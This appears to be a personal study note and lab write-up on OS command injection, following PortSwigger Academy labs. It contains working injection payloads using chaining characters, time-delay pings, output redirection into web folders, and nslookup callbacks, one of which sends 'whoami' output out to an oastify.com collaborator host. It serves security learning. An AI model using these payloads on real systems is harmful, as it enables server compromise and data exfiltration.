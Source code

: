 # OS command injection

It's about injecting commands  on the server which is running an application and fully compromise the data as well as application.

If a application usages the following request to view the stock 

```
https://insecure-website.com/stockStatus?productID=381&storeID=29
```

In the background something like  the following code might be running

```
stockreport.pl 381 29
```

As there is no defence again OS command injection attacker could run 


```
& echo aiwefwlguh &
```

which may give the following error 

```
Error - productID was not provided
aiwefwlguh
29: command not found
```


## Useful commands  
| Purpose of Command        | Linux        | Windows         |  
|---------------------------|--------------|-----------------|  
| Name of current user      | `whoami`     | `whoami`        |  
| Operating system          | `uname -a`   | `ver`           |  
| Network configuration     | `ifconfig`   | `ipconfig /all` |  
| Network connections       | `netstat -an`| `netstat -an`   |  
| Running processes         | `ps -ef`     | `tasklist`      |  
 



## Blind OS command injection vulnerabilities

Most of the instances are based on blind OS command injection which means, there is no response return from the command within it's `HTTP` response. 


Let's say and feedback application is being using where email is being sent using mail command.

```
mail -s "This site is great" -aFrom:peter@normal-user.net feedback@vulnerable-website.com
```

The output from the mail command is not returned on the application's responses. 

**Detecting blind OS command injection using time delays**

We can use time delay to check if os command is being executated or not, One of the best method is to use `ping` command as it will let us specify the number of ICMP packets to sent.

```
& ping -c 10 127.0.0.1 &
``` 
This command causes the application to ping its loopback network adapter for 10 seconds. 

## Exploiting blind OS command injection by redirecting output

If an application is serving files from `/var/www/static` we can redirect the output of the command to the static directory 

```
& whoami /var/www/static/0xtheM7.txt &
```


## Exploiting blind OS command injection using out-of-band (OAST) techniques

We can inject command that will tirgger an out of bound network interaction 

```
& nslookup himansu.com.np &
```

```
& nslookup 0xthem7.xyz &
```


## Ways of injecting OS commands

Characters used for both unix based system and windows which can be chained together.


```
&
&&
|
||
```
Commands for unix based system only

```
;
```
```
Newline (0x0a or \n) 
```

To perform inline command injection the following characters can be used.

```
`
```

```
$
```

Sometimes the output comes with `"` or `'` which could block the attack in this situation you may need to use the [meta characters](https://en.wikipedia.org/wiki/Metacharacter) according to the shell.


# Labs
## Lab: OS command injection, simple case

Check the stock and send the following request 
```
POST / product / stock HTTP / 2
Host: 0 a240078040afaa68551a563009200e3.web - security - academy.net
Cookie: session = QVkvVxREjzeXTb4B1zF470CS39mKcuhx
User - Agent: Mozilla / 5.0(X11; Linux x86_64; rv: 138.0) Gecko / 20100101 Firefox / 138.0
Accept: *
/*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a240078040afaa68551a563009200e3.web-security-academy.net/product?productId=2
Content-Type: application/x-www-form-urlencoded
Content-Length: 28
Origin: https://0a240078040afaa68551a563009200e3.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

productId=2&storeId=1;whoami
```

## Lab: Blind OS command injection with time delays

Payload used to solve the lab 

```
email=x||ping+-c+10+127.0.0.1||
```

Assuming this is injected into a parameter (`email`) in a backend system that uses it unsafely like:

```
somecommand --email=$email
```

Email is being controlled by attacker as we are filling the form


```
email=x||ping+-c+10+127.0.0.1||
```

It get's split in 

`x` → just a placeholder or dummy value

`||` → logical OR in the shell

`ping` -c 10 127.0.0.1 → ping localhost 10 times

`||` → another OR (used to chain commands or ensure execution)



As `email=x` is going to fail ping command will be triggered. 

You can also run on your terminal 

```
0xtheM7 || whoami
```

```
echo 0xtheM7 || whomami
```

The first command will run `whoami` as there is no command such as `0xtheM7` or Logical OR will run `whoami` command but in case of second on we wil be runngin `echo` command 



## Lab: Blind OS command injection with output redirection

Payload used to solve the lab 

```
csrf=2g6DRob8aEXHozDiwXDVj2UERt46YtmP&name=Coolcool&email=x||whoami+>+/var/www/images/0xtheM7.txt||&subject=cool&message=cool
```

The we fetched the output over 

https://YOURINSTANCE//image?filename=0xtheM7.txt


## Lab: Blind OS command injection with out-of-band interaction

Payload used to solve the lab 


```
csrf=vGk1Dn16qDq6NL7e0FV7fWmNmPOLMzFX&name=Himansu&email=x||nslookup+ld2qv0chx7z7doolkvdjryla117svij7.oastify.com||&subject=Cool&message=Cool
```

In this we have used the same bypass mechanism however we used internal command `nslookup` so that we can find out it it's hitting out server or not. 

## Lab: Blind OS command injection with out-of-band data exfiltration 
Payload used to solve the lab 


```
csrf=rcLcNvCAFojt490aCvcJ520UERrBXVly&name=Coool&email=x||nslookup+`whoami`.q3uvl52mncpc3teqa03oh3bfr6xxlq9f.oastify.com||&subject=Cool&message=Cool
```

Here we ran command ```whoami``` using backtick ``` `whoami` ``` which is used to run inline command and thus complete DNS query become 

```
{outputOfWhoami}.q3uvl52mncpc3teqa03oh3bfr6xxlq9f.oastify.com
```

And under the collaborator we could find the username which eventually solved the lab.